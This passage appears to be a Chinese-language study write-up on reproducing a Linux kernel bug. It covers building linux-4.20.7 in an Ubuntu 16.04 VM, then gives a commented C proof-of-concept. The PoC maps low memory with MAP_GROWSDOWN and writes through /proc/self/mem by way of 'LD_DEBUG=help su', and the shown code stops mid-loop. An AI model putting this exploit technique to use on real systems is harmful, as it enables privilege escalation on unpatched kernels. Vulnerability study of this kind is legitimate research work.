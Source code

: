 
- 根据上述资料中的https://blog.csdn.net/u014679440/article/details/135659333 ubuntu:16.04 可编译的版本 linux 4.0 <= ~ < linux 5.0，即使用16.04的虚拟机编译目标的 linux-4.20.7 内核

- 根据上述资料，和 linux-4.20.7 版本最近的ubuntu发行版为 Ubuntu 18.10 (Cosmic Cuttlefish)内核版本：4.18

- 两种方案均可尝试，处于便捷性和未来通用性考虑，尝试用16.04 虚拟机进行编译

# 代码分析
## poc
- ![](pic/2024-07-26-11-37-51.png)
```c
int main(void){
  // 尝试用 mmap 系统调用将一块内存映射到地址 0x10000，大小为 0x1000 字节
  // 访问权限是读写，标志包括 MAP_PRIVATE、MAP_ANONYMOUS、MAP_GROWSDOWN 和 MAP_FIXED
  // MAP_GROWSDOWN 向低地址扩展，类似栈
  void *map = mmap((void*)0x10000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1,0);

  //mmap映射成功则返回映射区的内存起始地址，这里应该是0x10000，否则返回MAP_FAILED(－1)，错误原因存于errno 中。
  if(map == MAP_FAILED) err(1,"mmap");

  // 打开 /proc/self/mem 文件，该文件表示当前进程的内存
  int fd = open("/proc/self/mem", O_RDWR);
  if(fd == -1) err(1,"open");

  // 将 map 转换为无符号长整型地址，即映射成功的内存地址
  unsigned long addr =(unsigned long)map;

  while(addr != 0){
    addr -= 0x1000;
    //使用 lseek 将文件描述符 fd 的偏移量设置为 addr，后续对fd所代表的对象的读写操作均从addr开始
    if(lseek(fd, addr, SEEK_SET)== -1)err(1,"lseek");
    char cmd[1000];

    //LD_DEBUG=help 设置 LD_DEBUG 环境变量为 help，用于调试动态链接器。该变量控制动态链接器的调试输出。LD_DEBUG=help 会打印动态链接器支持的所有调试选项。
    //su 1>&%d 会将1写入fd 所代表的内存地址上，从循环来看，就是将1分别写道 0x9000-》0x8000-》.....0x0的内存地址上
    //注意这里使用su表示用到了root权限
```